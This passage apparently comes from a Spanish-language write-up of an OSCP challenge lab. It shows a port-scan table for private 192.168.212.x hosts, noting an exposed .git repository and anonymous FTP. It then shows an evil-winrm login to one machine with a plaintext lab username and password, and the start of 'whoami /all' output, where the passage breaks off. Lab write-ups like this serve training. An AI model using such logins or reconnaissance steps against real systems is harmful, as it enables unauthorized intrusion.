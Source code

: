 |                     | 81     | open   | http          | Apache 2.4.41 (Ubuntu)                                                                                                               |
|                     | 443    | open   | https         | Apache 2.4.41 (Ubuntu)                                                                                                               |
|                     | 3000   | open   | ?             | ppp?                                                                                                                                 |
|                     | 3001   | open   | ?             | nessus?                                                                                                                              |
|                     | 3003   | open   | ?             | cgms?                                                                                                                                |
|                     | 3306   | open   | mysql         | MySQL (unauthorized)                                                                                                                 |
|                     | 5432   | open   | postgresql    | PostgreSQL 12.9 - 12.13                                                                                                              |
| **192.168.212.144** | 21     | open   | ftp           | vsftpd 3.0.5                                                                                                                         |
|                     | 22     | open   | ssh           | OpenSSH 8.9p1 Ubuntu                                                                                                                 |
|                     | 80     | open   | http          | Apache 2.4.52 (Ubuntu), .git expuesto ([https://github.com/PWK-Challenge-Lab/dev.git](https://github.com/PWK-Challenge-Lab/dev.git)) |
| **192.168.212.145** | 21     | open   | ftp           | Microsoft ftpd, **anon login permitido**                                                                                             |
|                     | 80     | open   | http          | Microsoft IIS 10.0, "Samuel's Personal Site"                                                                                         |
|                     | 135    | open   | msrpc         | Microsoft Windows RPC                                                                                                                |
|                     | 139    | open   | netbios-ssn   | Microsoft Windows netbios-ssn                                                                                                        |
|                     | 445    | open   | microsoft-ds  | ?                                                                                                                                    |
|                     | 3389   | open   | ms-wbt-server | Microsoft Terminal Services, Cert: CN=oscp, Win10 10.0.19041                                                                         |


## AD-Machines: .141 / 


* Entramos con las credenciales de Eric por winrm a la maquina **.141**

```bash
┌──(root㉿kali)-[/home/…/Challenges/4_OSCP-A/dmz/141]
└─# evil-winrm -i 192.168.212.141 -u 'Eric.Wallows' -p 'EricLikesRunning800' -P 5985
                                        
*Evil-WinRM* PS C:\Users\eric.wallows\Documents> whoami /all
                                                                                                                                                                                                                  
USER INFORMATION                                                                                                                                                                                                  
----------------                                                                                                                                                                                                  
                                                                                                                                                                                                                  
User Name         SID                                                                                                                                                                                             
================= ==============================================                                                                                                                                                  
oscp\eric.wallows S-1-5-21-2610934713-1581164095-2706428072-7605                                                                                                                                                  


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
```